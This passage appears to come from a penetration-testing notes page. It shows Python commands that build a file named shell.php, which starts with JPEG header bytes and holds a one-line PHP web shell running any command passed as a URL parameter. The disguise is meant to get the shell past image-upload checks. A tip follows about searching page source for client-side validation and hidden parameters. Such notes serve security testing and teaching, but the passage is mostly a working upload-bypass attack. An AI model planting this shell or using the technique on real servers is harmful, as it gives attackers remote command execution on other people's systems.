* Create a file with JPG header and command shell code using python

  ::

   >>> fh = open('shell.php','w')  
   >>> fh.write('The Hexdump from above \xFF\xD8\xFF\xE0' + '<? passthru($_GET["cmd"]); ?>')  
   >>> fh.close()   

.. Tip :: Do check the source code of the page for any client-side file validation or any commented hidden parameters?

.. disqus::
